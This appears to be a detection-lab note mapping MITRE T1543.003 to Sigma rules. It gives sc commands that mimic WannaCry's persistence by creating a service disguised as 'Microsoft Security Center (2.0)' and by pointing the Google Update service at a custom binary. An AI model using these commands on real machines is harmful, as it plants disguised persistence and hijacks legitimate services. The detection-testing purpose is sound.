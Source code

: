 # Create or Modify System Process: Windows Service

- **REPORT:**
    * https://drive.google.com/file/d/1rcu8VCZr3erZg_fBgMniqbGxXuJk138P/view?usp=sharing
- **REFERENCES:**
    * https://attack.mitre.org/techniques/T1543/003/
    * Rule:
        + https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_sc_service_path_modification.yml
        + https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_sc_create_service.yml
        + https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_powershell_create_service.yml
        + https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation
        + https://valhalla.nextron-systems.com/info/sigma-rule/85ff530b-261d-48c6-a441-facaa2e81e48

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service `(Administrator: Command Prompt)`
  * Create Service follow case attack WannaCry.
  ```powershell
  sc create "mssecsvc2.0" DisplayName= "Microsoft Security Center (2.0) Service" binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start= "auto"
  ```
  * Start, stop, delete service
  ```powershell
  sc start mssecsvc2.0
  ```
  ```powershell
  sc stop mssecsvc2.0
  ```
  ```pơwershell
  sc delete mssecsvc2.0
  ```  
 
- Modify Service `(Administrator: Command Prompt)`
  * Modify google update service.
  ```powershell 
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  * Restore default path google update.
  ```powershell 
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
  ```
